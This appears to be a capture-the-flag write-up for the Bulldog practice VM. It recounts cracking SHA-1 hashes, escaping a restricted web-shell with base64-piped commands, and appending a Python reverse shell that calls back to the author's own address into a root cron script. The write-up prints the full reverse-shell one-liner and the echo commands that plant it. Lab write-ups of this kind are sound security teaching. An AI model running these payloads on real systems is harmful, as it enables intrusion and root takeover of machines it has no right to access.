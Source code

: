 <b>VM name:</b> 
Bulldog

<b>Objective:</b>
Get root!

(bulldog VM image)

After loading this VM up in VirtualBox, it gives us the box's IP, so no real need to do an arp-scan to find out our target address.
So, first things first, let's run an Nmap scan to see what ports and services are available!
(***Please note that I worked on this VM and write-up from two different locations, so the DHCP IP address will appear different in certain screenshots. There are also times I switch back and forth between my Kali box and my Ubuntu box)

(nmap scan results) 

It seems they are running SSH on port 23 (it's not running as telnet), and there is some web activity on 80 and 8080. Exploring the web stuff first, I confirmed that both 80 and 8080 are just mirrors of each other and couldn't find any differences. We are first greeted with this landing page. 

(bulldog landing page)

The initial page doesn't offer much other than info that they've been breached. The source code didn't have anything interesting either--nor did the link to the Notice page. So, perhaps something is hiding on this domain somewhere. First thing I looked at: robots.txt. But it was a troll.

(robots.txt image)

Time to load up Sparta and see if it can detect anything interesting to explore.

(sparta image)

Hmm, this looks good. A dev page! 

(dev page)

Nice, a system overhaul to make it more secure. But is it really? There's a bunch of info on employees here which could be useful. Clicking on the web-shell, it seems we need authentication to proceed. What to do, what to do...

(web-shell denied)

Let's check the source code for the /dev page. Sure enough we find something interesting!

(dev page source)

Those are SHA-1 hashes, so let's run em in a decoder to see if we can get any plaintext passwords. 

(sha decoder results)

Nice! We have two results, which gives us a pair of credentials for something. But for what? I immediately tried the credentials on the SSH port, but no luck there, so there must be something else. Is there an admin page hiding? Yep!

(admin page)

Logging in with Nick's credentials, we can then access the web-shell as we are authenticated.

(nick logged in)
(web-shell page)

Neat. As the text on the /dev page mentioned, this is a shell interface, but it looks like we are limited only to a couple of commands. 
Semi-colon doesn't work to escape, and we get a message busting us! However, there are more ways than just that to escape. Can we trick it by passing all of our commands through base64? Let's test it with the following:

echo 'whoami'|base64|base64 -d|sh

(base64 test)

Sweet, it works. Now we can fully interact with the shell and pass whatever commands we like. While we don't need to pass it through base64, let's see if there is anything interesting in the /etc/passwd file. 

(etc/passwd)

Not too much here, but let's explore some other directories and files that you can usually bet on having something good. Next stop is /etc/cron.d!

(cron.d)

Running cat on each of these files, runAV contained something suspicious and worth checking out--a hidden directory with an application.

(AVApplication)

Awesome--so this means that this application is run AS ROOT every minute. Let's cat the contents.

(AVApp contents)

You dun messed up Alan! Now we have a vector for getting a reverse shell and potentially even more (priviledge escalation!). Since this is already set as a python script, we can echo in python code to this file to get a reverse shell up.


Pentest Monkey's Reverse Shell Cheatsheet is a good resource for reverse shell information, and we can utilize the following:

'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("OUR IP ADDRESS",LISTENING PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Let's setup a listening port with netcat on our machine, and then add the code to the application using our web-shell.
Remember, however, we can't use any semi-colons since they will be detected, so instead, we need to split this up line by line. A little tedious, but it will be worth it if it works.

(listening port)
(python code add)

echo 'import socket,subprocess,os' >> /.hiddenAVDirectory/AVApplication.py|base64|base64 -d|sh
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >> /.hiddenAVDirectory/AVApplication.py|base64|base64 -d|sh
echo 's.connect(("192.168.1.113",1234))' >> /.hiddenAVDirectory/AVApplication.py|base64|base64 -d|sh
echo 'os.dup2(s.fileno(),0)' >> /.hiddenAVDirectory/AVApplication.py|base64|base64 -d|sh
echo 'os.dup2(s.fileno(),1)' >> /.hiddenAVDirectory/AVApplication.py|base64|base64 -d|sh
echo 'os.dup2(s.fileno(),2)' >> /.hiddenAVDirectory/AVApplication.py|base64|base64 -d|sh
echo 'p=subprocess.call(["/bin/sh","-i"])' >> /.hiddenAVDirectory/AVApplication.py|base64|base64 -d|sh

Now we just wait a minute annnnnnnnnd...

Amazing! We are in AND we are also root since it executed under root! 

(connected)

Now, I know that we are alread root and our primary objective is done... but the box is challenging us with another way to get root, and I'm not one to turn down a challenge! Time to explore all the files and see if there is anything in here that is interesting.

Checking out the home folder we find the Bulldogadmin user we knew existed from the /etc/passwd file. 

(bulldogadmin files)

Seriously, what is with this company and hidden directories and prefacing them as 'hidden'--kind of a dead giveaway, no? 
At least name it 'garbage'! :P

In the hidden directory we find an app (customPermissionApp) and a note...

(note from ashley)

Thanks Ashley! But unfortunately we can't run it. Perhaps, however, there is something useful we can find by running strings on the executable?

(strings on app)

'SUPERultimatePASSWORDyouCANTget'

Winner, winner, chicken dinner! That looks like it could definitely be a password when put together (and it says it's a password!), unless we are getting super trolled. While I did not attempt to gain access through different means, I am certain that if the box can be accessed with a different user, we can use this password to gain root priviledges via 'sudo su'.

Seems like Bulldog Industries still has a ways to go before they are safe from breaches!
